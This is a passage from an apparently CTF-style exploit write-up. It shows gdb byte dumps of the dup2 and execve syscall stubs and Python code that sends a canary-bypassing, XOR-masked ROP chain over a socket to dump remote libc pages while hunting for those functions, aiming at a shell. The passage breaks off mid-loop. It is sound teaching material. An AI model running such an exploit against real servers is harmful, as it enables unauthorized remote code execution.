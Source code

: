 This makes our ROP chain a little bit longer, but it's not that terrible as we have a lot of room in our buffer. And eventually, when we'll call `execve` - we would have complete control ove the shell.


### Enough chat, let's finish the exploit
First, we need to find the starting bytes of `dup2` and `execve` in our local libc implementation, and look for them in the libc pages dumped from the server. As these are already system calls, we dont need much but something like:
```
mov eax, [SYSCALL_NUM]
syscall
```
Let's do this:

```
gdb-peda$ x/8b dup2
0x7ffff7af49a0 <dup2>:	0xb8	0x21	0x00	0x00	0x00	0x0f	0x05	0x48
```
Since `0x0f 0x05` is the `syscall` instruction, we can just stop there

```
gdb-peda$ x/8b execve
0x7ffff7ac8e30 <execve>:	0xb8	0x3b	0x00	0x00	0x00	0x0f	0x05	0x48
```

I wrote something pretty ugly that gets the job done:
```python
libc_page = unpack(write_libc) & 0xfffffffffffff000
page_size = 0x1000
dup2_start      = "".join([chr(t) for t in [0xb8,	0x21,	0x00,	0x00,	0x00,	0x0f,	0x05]])
execve_start    = "".join([chr(t) for t in [0xb8,	0x3b,	0x00,	0x00,	0x00,	0x0f,	0x05]])

dup2_remote_addr = 0
execve_remote_addr = 0

# scan down
print "Scanning down"
while dup2_remote_addr == 0 or execve_remote_addr == 0:
    try:
        payload = "davide" + "AA"
        payload += p64(gadget_pop_rdi_ret ^ Ds)
        payload += p64(0x4 ^ Ds)
        payload += p64(gadget_pop_rsi_pop_r15_ret ^ Ds)
        payload += p64(libc_page ^ Ds)   # buffer = page
        payload += p64(0x1337)   # pop r15, dont-care
        payload += p64(gadget_pop_rdx_ret ^ Ds)
        payload += p64(page_size ^ Ds)  # length
        payload += p64(text_section_write_plt ^ Ds)
        # Pad to the end of buffer
        payload += "B" * (1032 - len(payload))
        payload += p64(canary ^ Ds)
        payload += p64(buffer_addr ^ Ds)
        payload += p64(text_section_leave_ret ^ Ds)

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(SERVER)
        s.recv(4096)  # server hello
        s.send(payload)

        page_data = s.recv(page_size)
        if len(page_data) == 0:
            break

        if dup2_start in page_data:
            dup2_remote_addr = libc_page + page_data.index(dup2_start)
```